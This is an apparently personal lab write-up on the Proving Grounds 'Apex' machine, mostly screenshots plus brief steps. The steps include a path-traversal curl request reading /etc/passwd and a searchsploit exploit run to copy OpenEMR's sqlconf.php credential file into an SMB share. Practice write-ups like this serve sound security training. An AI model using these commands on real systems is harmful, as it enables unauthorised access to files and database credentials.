







There is openemr:


There are also files in source directory:


There is also a filemanager directory:



Now checking searchsploit:



Now first capturing the cookie with burpsuite:

Now curl:
```
curl -X POST -d "path=../../../../../../../etc/passwd" -H "Cookie: PHPSESSID=12k93hcuj6b7qt2jmnn40rd612" "http://192.168.190.145/filemanager/ajax_calls.php?action=get_file&sub_action=edit&preview_mode=text"
```


But we can not view php files
So using this exploit:
```
searchsploit -m php/webapps/49359.py
```
Now we can modify the exploit:

Now it will paste in /Documents folder which we discovered in smb.
```
python3 path.py http://192.168.190.145/ PHPSESSID=ue6febuau8psnqc5mu757o8ltg /var/www/openemr/sites/default/sqlconf.php
```
Check in smb at [[PG Practice/Apex/445]]
